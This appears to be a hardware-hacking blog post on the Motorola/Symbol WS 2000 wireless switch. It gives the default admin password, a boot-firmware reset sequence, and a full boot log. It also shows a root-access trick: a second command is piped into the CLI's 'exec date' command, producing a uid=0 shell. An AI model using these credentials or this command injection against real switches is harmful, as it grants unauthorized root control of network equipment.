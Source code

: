 ```yaml
---
title: "Motorola /  Symbol Wireless Switch WS 2000"
layout:     post
header-img: "img/post-bg-01.jpg"
---
```

## Default password

{% highlight}
username: admin
password: symbol
{% endhighlight}

## Reset to factory default

{% highlight}
localhost login: NEW CFG BLOCK 0 : VALID
NEW CFG BLOCK 1 : NOT VALID
WS 2000 Boot Firmware Version 2.2.3.0-020R
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
Press escape key to run boot firmware ......
boot> help
boot> passwd default symbol
boot> reset config
boot> reset system
resetting ...
{% endhighlight}

## Gain root access
{% highlight}
WS 2000 Wireless Switch 2.2.3.0-020R
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin
Password:
admin>system
admin(system)>exec date | ls -alt /console
drwxr-xr-x 1 root root 512 Jan 1 2003 .
drwxr-xr-x 1 root root 512 Jan 1 2003 ..
lrwxrwxrwx 1 root root 13 Jan 1 2003 arp -> /usr/sbin/arp
lrwxrwxrwx 1 root root 22 Jan 1 2003 ccdiag -> /cellcontroller/ccdiag
lrwxrwxrwx 1 root root 23 Jan 1 2003 ccstats -> /cellcontroller/ccstats
-rwxr-xr-x 1 root root 2062 Jan 1 2003 cformat
-rwxr-xr-x 1 root root 48 Jan 1 2003 cfumount
-r-s--x--x 1 root root 36514 Jan 1 2003 cli
lrwxrwxrwx 1 root root 9 Jan 1 2003 date -> /bin/date
lrwxrwxrwx 1 root root 7 Jan 1 2003 df -> /bin/df
lrwxrwxrwx 1 root root 11 Jan 1 2003 du -> /usr/bin/du<br />
-rwxr-xr-x 1 root root 2788 Jan 1 2003 ftp_cfg.sh<br />
-rwxr-xr-x 1 root root 2361 Jan 1 2003 ftp_core.sh<br />
lrwxrwxrwx 1 root root 14 Jan 1 2003 ifconfig -> /sbin/ifconfig<br />
lrwxrwxrwx 1 root root 12 Jan 1 2003 netstat -> /bin/netstat<br />
lrwxrwxrwx 1 root root 25 Jan 1 2003 peekshmem -> /cellcontroller/peekshmem<br />
lrwxrwxrwx 1 root root 9 Jan 1 2003 ping -> /bin/ping<br />
lrwxrwxrwx 1 root root 17 Jan 1 2003 tcpdump -> /usr/sbin/tcpdump<br />
-rwxr-xr-x 1 root root 2109 Jan 1 2003 tftp_cfg.sh<br />
lrwxrwxrwx 1 root root 20 Jan 1 2003 traceroute -> /usr/sbin/traceroute<br />
admin(system)>exec date | id<br />
uid=0(root) gid=100(users)<br />
</code>
<h2>Boot log</h2><br />
<code><br />
NEW CFG BLOCK 0 : VALID<br />
NEW CFG BLOCK 1 : NOT VALID</code>
<p>WS 2000 Boot Firmware Version 2.2.3.0-020R<br />
Copyright(c) Symbol Technologies Inc. 2003. All rights reserved.
<p>Press escape key to run boot firmware .............
<p>Power On Self Test
<p>testing ram : pass<br />
testing nor flash : pass<br />
testing nand flash : pass<br />
testing ethernet : pass
<p>Loading Linux Kernel<br />
Booting From 0x1160-0000 ...<br />
Uncompressing Linux............................................done.<br />
booting the kernel.<br />
Linux version 2.4.20_mvl31-ixdp4xx (root@mobion) (gcc version 3.3.1 (release/MontaVista 3.1)) #1 Mon June 7 10:00:00 PDT 2004<br />
CPU: XScale-IXP4xx/IXC11xx [690541c1] revision 1 (ARMv5TE)<br />
CPU: D undefined 5 cache<br />
CPU: I cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
CPU: D cache: 32768 bytes, associativity 32, 32 byte lines, 32 sets<br />
Machine: Intel IXDP425 Development Platform<br />
On node 0 totalpages: 15360<br />
zone(0): 15360 pages.<br />
zone(1): 0 pages.<br />
zone(2): 0 pages.<br />
Kernel command line: mem=61440K console=ttyS1,19200 noinitrd rootflags=0 rootfstype=yaffs root=/dev/mtdblock0<br />
Calibrating delay loop... 532.48 BogoMIPS<br />
Memory: 59284KB available (1160K code, 237K data, 60K init)<br />
XScale cache_lock_init called<br />
Calling consistent alloc<br />
low_level_page initialized<br />
low_level_page @ 0xc4000000<br />
icache_lock_fn @ 0xc4000080<br />
dcache_lock_fn @ 0xc40000a0<br />
icache_unlock_fn @ 0xc4000098<br />
dcache_unlock_fn @ 0xc40000f0<br />
Initializing TLB locking<br />
TLB locking initialized<br />
Mount-cache hash table entries: 1024 (order: 1, 8192 bytes)<br />
Buffer-cache hash table entries: 1024 (order: 0, 4096 bytes)<br />
Page-cache hash table entries: 16384 (order: 4, 65536 bytes)<br />
POSIX conformance testing by UNIFIX<br />
Initializing RT netlink socket<br />
Starting kswapd<br />
Disabling the Out Of Memory Killer<br />
pty: 256 Unix98 ptys configured<br />
Creating 3 MTD partitions on "NAND 64MiB 3,3V":<br />
0x00000000-0x03c00000 : "SPIA flash partition 1"<br />
0x03c00000-0x03fe0000 : "SPIA flash partition 2"<br />
0x03fe0000-0x04000000 : "SPIA flash partition 3"<br />
NetWinder Floating Point Emulator V0.95 (c) 1998-1999 Rebel.com<br />
VFS: Mounted root (yaffs filesystem) readonly.<br />
serial console detected. Disabling virtual terminals.<br />
console=/dev/console<br />
init started: BusyBox v0.60.3 (2004.5.6-12:00 +0000) multi-call binary<br />
Starting pid 9, console /dev/console: '/etc/init.d/rcS'<br />
Activating swap...<br />
Mounting local filesystems...<br />
/dev/shm on /var/log type tmpfs (rw,size=512k)<br />
/dev/mtdblock1 on /save type yaffs (rw)<br />
Initializing random number generator... done.<br />
rm: cannot remove `/var/run/*.pid': No such file or directory<br />
Using cf.o<br />
Starting automount:[ OK ]<br />
Using cfgstat.o<br />
Testing Shadow Flash...passed<br />
Shadow Flash Init Test Passed<br />
Using lnkstat.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/ixp400/ixp400.o<br />
Using throttle.o<br />
Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/drivers/net/mobion_eth.o<br />
Initializing IXP425 NPE Ethernet driver software v. 1.1<br />
CPU clock speed (approx) = 532 MHz
<p>Using /lib/modules/2.4.20_mvl31-ixdp4xx/kernel/net/bridge/bridge.o<br />
Using shmemdev.o<br />
Using pktdrvr.o
<p>Starting Apache....<br />
start /apache/httpd<br />
Starting portmap....<br />
Starting inetd....<br />
Loading drivers ...<br />
Using igateway.o<br />
Using dhpktdrv.o<br />
Using drvpppoe.o<br />
Using l2tpdrv.o<br />
Using pptpdrv.o<br />
Using tcpmssmangler.o<br />
Starting iGateway Apps(1)....<br />
Starting iGateway Apps(2)....<br />
Using switch.o<br />
Starting Wireless Switch....<br />
Configuring iGateway....<br />
Creating config files....<br />
Starting SSHD....<br />
Starting snmpd:
<p>Starting keepalived....<br />
Starting Message Handler daemon<br />
Using led.o<br />
Starting pid 366, console /dev/console: '/sbin/agetty'<br />
Starting pid 367, console /dev/console: '/sbin/agetty'
<p>WS 2000 Wireless Switch 2.2.3.0-020R<br />
Copyright (c) Symbol Technologies, Inc. 2003, 2004. All rights reserved.
<p>localhost login: admin<br />
Password:<br />
Password is same as default password, please change the password<br />
Enter new password:<br />
Verify new password:<br />
Authentication tokens updated successfully<br />
Welcome to Symbol Technologies' WS 2000 Wireless Switch
<p>admin>
